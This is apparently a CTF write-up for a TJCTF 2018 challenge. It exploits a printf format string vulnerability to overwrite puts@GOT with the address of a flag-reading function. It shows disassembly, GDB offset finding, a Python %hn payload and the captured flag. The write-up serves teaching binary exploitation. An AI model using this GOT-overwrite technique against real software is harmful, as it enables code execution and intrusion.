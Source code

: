     .text:080488EC                 push    [ebp+var_2C]    ; format
    .text:080488EF                 call    _printf
    .text:080488F4                 add     esp, 10h

**var_2C** is the argument passed to the function and it represents our message and it is passed directly to **printf()** and that means: format string vulnerability! The scenario could be classic: leak libc, overwrite some function GOT with system, pass “/bin/sh” to it and get the flag, but it is even easier, after investigating the binary a little bit more we see another function named **get_secret()** that has some pretty interesting code in it:

    .text:08048727                 push    offset modes    ; "r"
    .text:0804872C                 push    offset filename ; "flag.txt"
    .text:08048731                 call    _fopen

So it is clear, we need to overwrite some GOT entry with the address of this function. I will chose **puts() **as it is called after our exploit few times. We need to write 0x08048713 (get_secret) at 0x0804A028 (puts@got) in order to get the flag. We will use 2 writes of 2 bytes. (if you are not familiar with this type of exploit read [this](http://security.cs.rpi.edu/courses/binexp-spring2015/lectures/9/06_lecture.pdf) and watch [this](https://www.youtube.com/watch?v=0WvrSfcdq1I)) Before we craft our exploit, we need to know where our controlled is in order to pop addresses from it. If we set a breakpoint before the printf at 0x080488EF and dump the stack, we will see that **%35$x** is our buffer.

This is a short explanation for those who don’t understand how I got that number. Open the executable in GDB and put a breakpoint at that printf. Input something like this in the message: *AAAABBBB %x %x %x *and now continue. When the breakpoint is hit, dump the stack then step to the next instruction. The printf output will be something like:

    AAAABBBB ffffc5ec f7fa05c0 fbad2887

Now let’s search those values in the stack dump.

![Stack dump](https://cdn-images-1.medium.com/max/2000/1*7zLfLJ5ivI6oU7k4DL_EQQ.png)*Stack dump*

In the first square, we have the dumped values by printf and in the second one the actual buffer. The distance from first printed argument to the buffer is of 35 arguments. So, when we will want to overwrite few addresses using **%n **format argument, we will put those addresses at the beginning of our buffer and we will use **%<arg>$n** syntax to access them. Let’s proceed further.

Using python I generated the payload in a pretty manner:

    arg_off = 35
    puts_GOT = 0x0804A028
    get_secret_ADDR = 0x08048713

    write1 = 0x0804 - 8
    write2 = 0x8713 - write1 - 8

    payload = p32(puts_GOT + 2) + p32(puts_GOT) + "%{}x%{}$hn%{}x%{}$hn".format(write1, arg_off, write2, arg_off + 1)

First we write the bytes with a smaller value and then the rest. After running it we get: **tjctf{n1c3_j0b_y0u_r34lly_GOT_m3_600d}**

Full solution: [https://github.com/JustBeYou/ctfs/blob/master/tjctf2018/secure.py](https://github.com/JustBeYou/ctfs/blob/master/tjctf2018/secure.py)
